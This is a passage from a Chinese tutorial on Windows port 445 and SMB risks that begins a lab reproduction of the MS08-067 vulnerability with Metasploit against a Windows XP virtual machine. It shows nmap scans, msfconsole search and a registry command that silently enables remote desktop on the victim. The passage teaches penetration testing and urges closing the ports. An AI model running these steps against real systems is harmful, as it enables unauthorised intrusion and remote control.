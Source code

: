 (4) 黑客通过端口可以干什么

*   信息收集
    
*   目标探测
    
*   服务判断
    
*   系统判断
    
*   角色分析
    

(5) 445 端口  
谢公子大佬在 “135、137、138、139 和 445 端口” 文章中介绍过这些端口，它们都是与文件共享和打印机共享有关的端口，而且在这几个端口上经常爆发很严重的漏洞。比如 2017 年危害全球的永恒之蓝，就是利用的 445 端口。后续作者会写四篇文章详细分析 WannaCry。

本篇文章的 445 端口就是利用 SMB（Server Message Block）Windows 协议族，用于文件共享、打印共享的服务。445 端口是一个毁誉参半的端口，有了它我们可以在局域网中轻松访问各种共享文件夹或共享打印机，但也正是因为有了它，黑客们才有了可乘之机，他们能通过该端口偷偷共享你的硬盘，甚至会在悄无声息中将你的硬盘格式化掉！

总之，公开服务器打开 139 和 445 端口是一件非常危险的事情。如果有 Guest 帐号，而且没有设置任何密码时，就能够被人通过因特网轻松地盗看文件。如果给该帐号设置了写入权限，甚至可以轻松地篡改文件。也就是说在对外部公开的服务器中不应该打开这些端口。通过因特网使用文件服务器就等同自杀行为，因此一定要关闭 139 和 445 端口。对于利用 ADSL 永久性接入因特网的客户端机器可以说也是如此。

三. 利用 Metasploit 复现漏洞
=====================

*   攻击机：Kali - 192.168.44.136
    
*   受害机：Win XP - 192.168.44.135
    

第一步，利用 Nmap 工具扫描端口及确认该漏洞是否存在。

```
# 开启远程连接
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
# 查看网络端口
netstat -an
# 远程连接
rdesktop 192.168.44.135
```

nmap 扫目录为 “/usr/share/nmap/script/”，如下图所示，扫描结果为 VULNERABLE，表示 MS0808-067 漏洞存在且可以利用。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNAlsD1CI0xQV0JiaM09ia03X4ur4psPT4vXBMCWiaf2sUaNEuSEyFyWkxA/640?wx_fmt=png)

或者使用 “nmap -sV -Pn 192.168.44.135” 查看目标主机开放的端口。目标机开放了 135、139、445、1025、5000 端口，且目标机系统为 Windows XP。作为黑客，一看到 XP 或 2003 系统的 445 端口开放，我们就能想到轰动一时的 MS08-067。

```
nmap  -sV -Pn 192.168.44.135
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNwXvflS5mdo4Sfemm1roaaxIcica1XbB6FGfTbCkJsV2iaC5faRF4T9Xg/640?wx_fmt=png)

第二步，进入 Msfconsole 并利用 search 语句查找漏洞利用模块。  
终端内输入 msfconsole 打开 metasploite 命令行客户端，使用 search 命令查找 ms08-067 的漏洞利用模块。

```
msfconsole
search ms08-067
```
